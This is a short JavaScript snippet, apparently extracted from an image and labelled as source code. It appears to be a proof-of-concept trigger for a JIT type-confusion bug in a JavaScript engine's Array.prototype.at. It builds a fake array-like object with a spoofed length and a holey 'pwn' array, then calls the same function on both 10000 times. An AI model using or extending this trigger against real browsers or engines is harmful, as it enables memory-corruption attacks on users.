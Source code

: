     function bug(a, i) {
      return a.at(i);
    }

    let not_array = { length: 0x1337, 
    __proto__: Array.prototype, 
    1: 42 }; 
    let array = ["pwn",,"pwn",,"pwn"];                                     
    for (let a = 0; a < 10000; a++) {
      bug(array, 0);
      bug(not_array, 0);
    }